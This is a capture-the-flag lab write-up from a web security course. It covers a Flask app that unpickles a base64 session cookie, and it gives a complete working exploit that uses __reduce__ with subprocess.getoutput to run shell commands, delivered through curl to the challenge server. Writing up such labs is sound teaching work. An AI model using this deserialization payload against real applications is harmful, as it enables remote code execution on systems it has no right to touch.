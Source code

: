 ```yaml
---
title: Simple Web 0x16(Lab - Pickle)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web 0x16(Lab - Pickle)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8600/
Note: open a brand new window that haven't login `http://h4ck3r.quest`

## Background
[0x15.5(Pickle)](/IcoQql7UQiegLv8KtK2wOw)

## Source code
:::spoiler code
```pyton=
from flask import Flask, request, make_response, redirect, send_file
import base64
import pickle

app = Flask(__name__)


@app.route("/sauce")
def sauce():
    return send_file(__file__, mimetype="text/plain")


@app.route("/")
def main():
    session = request.cookies.get("session")
    if session == None:
        return '<form action="/login" method="POST">' +\
            '<p>Name: <input name="name" type="text"></p>' +\
            '<p>Age: <input name="age" type="number"></p>' +\
            '<button>Submit</button></form><hr><a href="/sauce">Source code</a>'

    else:
        user = pickle.loads(base64.b64decode(session))
        return f'<p>Name: {user["name"]}</p><p>Age: {user["age"]}</p>'


@app.route("/login", methods=['POST'])
def login():
    user = base64.b64encode(pickle.dumps({
        "name": request.form.get('name'),
        "age": int(request.form.get('age'))
    }))
    resp = make_response(redirect('/'))
    resp.set_cookie("session", user)
    return resp
```
:::

### Description & Analyze
In main function, it'll request session and parse it by `base64` then deserialize it.
If session is none, you can enter your name and age then it'll serialize the data and transfer by base64.
For example: name=123, age=123
The Cookie: session=`gASVGgAAAAAAAAB9lCiMBG5hbWWUjAMxMjOUjANhZ2WUS3t1Lg==`
```python!
>>> pickle.loads(base64.b64decode('gASVGgAAAAAAAAB9lCiMBG5hbWWUjAMxMjOUjANhZ2WUS3t1Lg=='))
{'name': '123', 'age': 123}
```

## Exploit
1. Construct exploit function
Note that the format must be `{'name': '', 'age': ''}`
2. Payload
    ```python!
    class exploit(object):
        def __reduce__(self):
            return (__import__('subprocess').getoutput, ('ls',))

    serialized = pickle.dumps({
            "name": '123',
            "age": exploit()
            })
    ```
    Note that, must not use `os.system` in this situation. 'Cause in addition to the result of `os.system('{command}')`, it'll return exit status code.
    > On Unix, the return value is the exit status of the process encoded in the format specified for wait(). Note that POSIX does not specify the meaning of the return value of the C system() function, so the return value of the Python function is system-dependent.

    So that if we use `os.system` as payload directly the output will not be render correctly.
    * For instance:
        ```python!
        class exploit(object):
        def __reduce__(self):
            return (os.system, ('ls',))


        serialized = pickle.dumps({
                "name": '123',
                "age": exploit()
                })
        optim_s = base64.b64encode(serialized)
        print(pickle.loads(base64.b64decode(optim_s)))
        ```
        ```bash!
        $ python pickle_exp.py
        exploit.py  pickle_exp.py  server_app.py
        {'name': '123', 'age': 0}
        ```
        or
        You can execute it in wsl directly.
        ![](https://i.imgur.com/7XrSWl6.png)
    So, you can use `subprocess.getoutput` to fetch the outcome without exit code
    ![](https://i.imgur.com/T8kvBel.png)
3. Whole exploit
    ```python=
    import pickle
    import os
    import pickletools
    import base64

    class exploit(object):
        def __reduce__(self):
            return (__import__('subprocess').getoutput, ('ls -al /',))


    serialized = pickle.dumps({
            "name": '123',
            "age": exploit()
            })
    optim_s = pickletools.optimize(serialized)

    cookie = base64.b64encode(optim_s).decode()

    os.system(f"curl http://h4ck3r.quest:8600/ --cookie 'session={cookie}'")
    ```

## Result
![](https://i.imgur.com/UoFhBVM.png)
